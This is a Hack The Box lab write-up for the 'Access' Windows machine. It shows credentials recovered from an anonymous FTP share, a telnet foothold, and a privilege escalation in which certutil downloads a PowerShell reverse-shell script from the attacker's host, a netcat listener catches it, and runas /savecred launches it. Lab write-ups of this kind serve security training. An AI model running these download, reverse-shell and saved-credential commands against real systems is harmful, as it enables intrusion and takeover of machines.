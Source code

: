 ```yaml
---
title: Access
permalink: /access/
tags: windows
---
```


![2021-08-15_20-19.png](assets/2021-08-15_20-19.png)

## Overview

Access is a Windows Server 2008 R2 box running an telnet, IIS, and ftp. Sensitive data was exposed on the ftp server which provided valid logon credentials for telnet and provided the initial foothold as user.  Enumeration of the system lead to cached credentials which were used to switch to the administrator account.

## Enumeration

**Software**  

* Windows Windows Server 2008 R2 Standard  
* Microsoft Windows XP telnetd  
* IIS 7.5  

**Open Ports**  

```
nmap -vv --reason -Pn -sT -A --osscan-guess -p- -oN /mnt/data/boxes/access/results/10.10.10.98/scans/_full_tcp_nmap.txt -oX /mnt/data/boxes/access/results/10.10.10.98/scans/xml/_full_tcp_nmap.xml 10.10.10.98  
```

* 21/tcp - ftp  

* 23/tcp - telnet  

* 80/tcp - http  

## Steps (User)

I started by browsing to the website on port 80. There wasn't much to it, just a single picture of what looked like server racks with the caption “LON-MC6”. I didn't find anything interesting so I decided to log onto the ftp server which I was able to log into anonymously. 

There were two folders, Engineer and Backups. I pulled down backup.mdb from Backups and Access Control.zip From Engineer. The zip file was password protected and running fcrackzip with the rockyou password was unsuccessful. On to the mdb file...

Since I use a Linux box, I wasn't able to open the mdb file natively (it's an Access database).  I tried a few different approaches to get it to open with Libre Office but ultimately I settled on mdbtools. WIth mdb-sql I was able to query the database via the command line. After listing the tables I came across auth_user which looked interesting.

<img title="" src="assets/682952c362321549a29d4f74c09a6353da10326c.png" alt="loading-ag-1450" width="171">

This table contained a few different passwords. The output was terrible so I had to scroll around a bit and found 3 username/password entries: admin/admin, engineer/access4u@security, and backup_admin/admin.

![image](assets/536240ffebb5847567ccab9172344f1f05b481db.png)

I had to do some searching to figure out the best way to read pst files on a linux box and decided to go with readpst. Using readpst I convereted the .pst file to an .mbox file. I was then able to open it in a text editor which showed an email containing the security account password.

security/4Cc3ssC0ntr0ller

With that username and password I was able to successfully log in via telnet and get the user flag.  

## Steps (root/system)

After poking around the system a bit I did not find any obvious privilege escalation paths, so I tranferred winpeas to the box and ran it. Not much of anything interesting except for some saved credentials for the administrator account. Running cmdkey /list showed that the credentials for the administrator account were saved.

![image](assets/a9a5983e7bbc09b935c12faad66dd73ac7874ce1.png)

I made a copy of Invoke-PowerShellTcp on my local machine and added Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.20 -Port 4200 to the end so it would automatically call cmdlet.  

I downloaded Invoke-PowerShellTcp.ps1 via certutil  

```
certutil -urlcache -split -f http://10.10.14.20:8080/Invoke-PowerShellTcp.ps1
```

Started reverse shell with netcat on my machine 

```
nc -lvnp 4200
```

And used the runas command to use the saved credential to launch Invoke-PowerShellTcp which called back to my machine.

```
runas /savecred /user:ACCESS\Administrator "powershell -exec bypass c:\users\public\invoke-powershellltcp.ps1"
```

Shell as administrator

![](assets/2021-07-10-09-51-49-image.png)
